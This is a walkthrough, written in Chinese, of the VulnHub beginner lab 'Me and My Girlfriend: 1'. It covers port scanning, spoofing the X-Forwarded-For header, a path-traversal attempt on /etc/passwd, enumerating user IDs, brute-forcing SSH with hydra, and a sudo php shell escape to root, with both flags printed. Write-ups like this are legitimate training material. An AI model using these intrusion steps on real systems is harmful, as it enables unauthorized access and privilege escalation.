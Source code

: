 # Me and My Girlfriend: 1

2024-6-11 https://www.vulnhub.com/entry/me-and-my-girlfriend-1,409/

difficulty: Beginner

## IP

192.168.5.36

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 57e15658460433563dc34ba793ee2316 (DSA)
|   2048 3b264de4a03bf875d96e1555828c7197 (RSA)
|   256 8f48979b55115bf16c1db34abc36bdb0 (ECDSA)
|_  256 d0c302a1c4c2a8ac3b84ae8fe5796676 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

gobuster 先扫描下，

访问 http://192.168.5.36/ 查看源码发现提示 Maybe you can search how to use x-forwarded-for , 使用 chrome plugin header editor 添加 header X-Forwarded-For: 127.0.0.1

再次访问主页跳转到 http://192.168.5.36/?page=index

看菜单中的几个功能，像是有 LFI 文件包含，先看看有没有。

http://192.168.5.36/index.php?page=../../../../../../../etc/passwd 没有反应，暂时没发现 LFI，应该是后台程序在后面加上了.php 后缀。

http://192.168.5.36/index.php?page=register 注册一个账号后，进行登陆，发现 url 显示 http://192.168.5.36/index.php?page=dashboard&user_id=12 这里 user_id 可能存在用户遍历，尝试 0-20,发现了一些其他的用户，分别将用户名和密码保存，然后使用 hydra 进行 ssh 爆破，发现了一个可以登陆的 ssh 用户凭据 alice:4lic3

使用发现的凭据 alice:4lic3 ssh 登陆，进行枚举，发现 sudo 存在利用点：

发现 flag1：

```
alice@gfriEND:~/.my_secret$ cat flag1.txt
Greattttt my brother! You saw the Alice's note! Now you save the record information to give to bob! I know if it's given to him then Bob will be hurt but this is better than Bob cheated!

Now your last job is get access to the root and read the flag ^_^

Flag 1 : gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}
```

```
(root) NOPASSWD: /usr/bin/php

sudo php -r "system('/bin/bash');"

root@gfriEND:~# id
uid=0(root) gid=0(root) groups=0(root)
root@gfriEND:~# cd /root
root@gfriEND:/root# ls
flag2.txt
root@gfriEND:/root# cat flag2.txt

  ________        __    ___________.__             ___________.__                ._.
 /  _____/  _____/  |_  \__    ___/|  |__   ____   \_   _____/|  | _____     ____| |
/   \  ___ /  _ \   __\   |    |   |  |  \_/ __ \   |    __)  |  | \__  \   / ___\ |
\    \_\  (  <_> )  |     |    |   |   Y  \  ___/   |     \   |  |__/ __ \_/ /_/  >|
 \______  /\____/|__|     |____|   |___|  /\___  >  \___  /   |____(____  /\___  /__
        \/                              \/     \/       \/              \//_____/ \/

Yeaaahhhh!! You have successfully hacked this company server! I hope you who have just learned can get new knowledge from here :) I really hope you guys give me feedback for this challenge whether you like it or not because it can be a reference for me to be even better! I hope this can continue :)

Contact me if you want to contribute / give me feedback / share your writeup!
Twitter: @makegreatagain_
Instagram: @aldodimas73

Thanks! Flag 2: gfriEND{56fbeef560930e77ff984b644fde66e7}
```
